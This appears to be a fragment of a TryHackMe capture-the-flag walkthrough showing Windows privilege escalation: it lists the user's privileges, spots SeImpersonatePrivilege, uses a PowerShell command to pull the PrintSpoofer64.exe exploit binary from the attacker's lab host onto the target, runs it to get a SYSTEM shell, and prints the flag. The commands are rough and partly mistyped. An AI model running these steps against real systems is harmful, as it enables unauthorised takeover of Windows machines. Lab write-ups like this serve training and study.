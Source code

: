 running
`whomai /priv`

![[Pasted image 20210529134325.png]]

and we have  a exploitable service

`SeImpersonatePrivilege        Impersonate a client after authentication Enabled `


on looking there a exploit for this (without metasploit )

https://github.com/itm4n/PrintSpoofer

transfer the binary PrintSpoofer64

`powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.17.4.208/PrintSpoofer64.exe','C:\Users\bob\Desktop\PrintSpoofer64.exe`

and run `PrintSpoofer64.exe -i -c powershell`  and we have root

![[Pasted image 20210529135345.png]]


root == THM{1fk5kf469devly1gl320zafgl345pv}
